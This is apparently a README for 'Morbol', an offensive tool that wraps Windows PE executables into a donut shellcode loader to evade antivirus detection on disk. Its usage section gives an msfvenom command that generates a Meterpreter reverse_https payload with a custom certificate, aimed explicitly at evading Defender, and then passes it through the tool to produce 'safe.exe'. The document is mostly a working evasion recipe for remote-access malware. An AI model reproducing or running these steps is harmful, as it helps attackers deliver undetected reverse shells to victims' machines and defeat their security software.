 # Morbol

Wraps PE Files (PIE required) into a shellcode loader via donut. This mainly evades detection on *disk*.

## Setup

```
pip3 install donut-shellcode
sudo apt-get install upx
```

## Usage

In my experience the only reliable way to evade defender with meterpreter is to use a reverse_https payload with a custom cert.

- Modify `/etc/ssl/openssl.cnf` so that `CipherString = DEFAULT`
- openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
- set HandlerSSLCert on the server side listener

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=... LPORT=...  HandlerSSLCert=... -f exe  > msf.exe
python3 morbol.py msf.exe safe.exe
```


## Credit

Heavily based on:
* https://posts.specterops.io/going-4-a-run-eb263838b944
* https://github.com/D00MFist/Go4aRun